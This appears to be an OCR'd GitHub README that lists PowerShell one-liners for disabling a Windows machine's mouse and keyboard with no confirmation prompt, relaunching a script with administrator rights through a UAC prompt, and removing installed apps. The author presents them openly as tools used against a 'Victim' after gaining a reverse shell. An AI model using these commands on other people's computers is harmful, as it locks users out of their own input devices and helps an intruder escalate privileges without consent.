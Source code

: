 ```
# Find InstanceID for Mouse
$mouse = Get-PnpDevice | Where-Object {$_.Class -eq 'Mouse'}
$mouse | Format-Table -Property FriendlyName, InstanceId
```


```
# Find InstanceID for Keyboard
$keyboard = Get-PnpDevice | Where-Object {$_.Class -eq 'Keyboard'}
$keyboard | Format-Table -Property FriendlyName, InstanceId
```
<br>

The Command :
```
# Disable Mouse
$mouse = Get-PnpDevice | Where-Object {$_.Class -eq 'HIDClass' -and $_.FriendlyName -like '*Mouse*'}
$mouse | Disable-PnpDevice -Confirm:$false
```

```
# Disable Keyboard
$keyboard = Get-PnpDevice | Where-Object {$_.Class -eq 'Keyboard' -or ($_.Class -eq 'HIDClass' -and $_.FriendlyName -like '*Keyboard*')}
$keyboard | Disable-PnpDevice -Confirm:$false
```

Copy the INstacneID and slightly modify the down command !

<br>

Below are the Older Version that works in Windows 7 , 8 , 10(Older Version) <br> 

1(a). Lock input's from KeyBoard and Mouse <br>
 
    Start-Sleep -Seconds 5 ; Disable-PnpDevice -InstanceId (Get-PnpDevice -FriendlyName 'HID-compliant mouse').InstanceId ; Disable-PnpDevice -InstanceId (Get-PnpDevice -FriendlyName 'Standard PS/2 Keyboard').InstanceId
 
     
<br>

------------

2 . Run Script as Admin<br>

    Start-Process powershell.exe -ArgumentList '-File "C:\Path\To\Script.ps1"' -Verb RunAs
    
<h4>
 The Above Script will Run the Powershell saved Script as Admin once if the Victim clicks "Yes" on His PC .
 No Problem if You Got Reverse Shell as Administrator . You can play with your own Rev-Shell
</h4>
<br>

3 . Uninstall Program in Windows systems 

    Get-AppxPackage *programName* | Remove-AppxPackage
